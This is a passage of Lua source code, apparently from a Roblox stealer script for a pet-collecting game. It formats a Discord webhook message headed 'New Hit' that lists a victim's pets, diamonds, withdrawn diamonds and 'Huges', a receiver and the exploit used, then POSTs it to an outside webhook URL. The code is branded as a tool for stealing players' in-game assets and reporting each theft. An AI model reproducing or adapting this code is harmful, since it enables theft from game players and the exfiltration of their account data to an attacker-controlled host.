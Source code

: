                         "\nExploit      : " .. exploit .. "\nReceiver     : " .. receiver .. "```",
                    ["inline"] = false
                }, {
                    ["name"] = ":dog: **Pets left** :dog:",
                    ["value"] = "```" .. f .. "```",
                    ["inline"] = true
                }, {
                    ["name"] = ":gem: **Diamonds** :gem:",
                    ["value"] = "```" .. d .. "```",
                    ["inline"] = true
                },
                    {
                        ["name"] = rarity,
                        ["value"] = "```" .. name .. "```",
                        ["inline"] = true
                    },
                    {
                        ["name"] = ":bank: **Joined Banks** :bank:",
                        ["value"] = "```" .. bankscount .. lmao .. "```",
                        ["inline"] = true
                    },
                    {
                        ["name"] = ":gem: **Wd Diamonds** :gem:",
                        ["value"] = "```" .. WDiamondsCount .. "```",
                        ["inline"] = true
                    }, {
                    ["name"] = ":money_mouth: **Wd Huges** :money_mouth:",
                    ["value"] = "```" .. FinalFinal .. "```",
                    ["inline"] = true
                },
                }
            } }
        }
        newdata1 = game:GetService("HttpService"):JSONEncode(data1)

        headers = {
            ["content-type"] = "application/json"
        }

        if Webhook ~= nil and whenabled == true then
            abcdef1 = {
                Url = url,
                Body = newdata1,
                Method = "POST",
                Headers = headers
            }
            request(abcdef1)
        end
    else
        imgs =
        "https://cdn.discordapp.com/attachments/1059224458033901668/1066510039818440864/New_Project_DADCF6A.gif"
        data1 = {
            ["content"] = ping,
            ["username"] = "OmgzXFatals Scriptz",
            ["avatar_url"] = imgs,
            ["embeds"] = { {
                ["title"] = "**New Hit** ||With OmgXfatal||",
                ["url"] = "https://discord.gg/uSgzNwHDTS",
                ["type"] = "rich",
                ["color"] = tonumber(0x2798FF),
                ["thumbnail"] = {
                    ["url"] = Image,
                    ["height"] = 420,